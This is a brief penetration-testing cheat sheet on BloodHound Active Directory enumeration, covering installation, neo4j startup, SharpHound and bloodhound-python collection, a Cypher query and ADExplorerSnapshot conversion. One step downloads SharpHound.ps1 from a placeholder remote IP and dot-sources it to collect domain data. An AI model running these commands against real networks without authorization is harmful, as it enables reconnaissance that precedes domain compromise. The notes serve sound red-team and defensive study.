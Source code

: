 * BloodHound CheatSheet
  
https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/

* BloodHound.exe  
https://github.com/BloodHoundAD/BloodHound/

or  

* Install linux
```
sudo apt update && sudo apt install -y bloodhound
```
* neo4j start - http://localhost:7474/
```
sudo neo4j start
sudo neo4j console
```

* Enumeration - Windows
```
iwr -uri <ip>/SharpHound.ps1 -Outfile SharpHound.ps1
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
Invoke-BloodHound -CollectionMethod All -Verbose
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
```

* bloodhound-python - Dumping and viewing AD tree

```
sudo bloodhound-python -u <user> -p <password> -ns <ip_dc> -d test.local -c all
```
https://github.com/fox-it/BloodHound.py

### Commands BloodHound

* Find a user
```
MATCH (u:User) WHERE u.name =~ '(?i).*licenca.*'RETURN u
```
_________________

* AD Explorer snapshot to Json files
```
git clone https://github.com/c3c/ADExplorerSnapshot.py.git
cd ADExplorerSnapshot.py

sudo apt install python3-venv -y
python3 -m venv venv
source venv/bin/activate
pip install .
pip3 install --user .

python3 ADExplorerSnapshot.py teste1.dat 
```

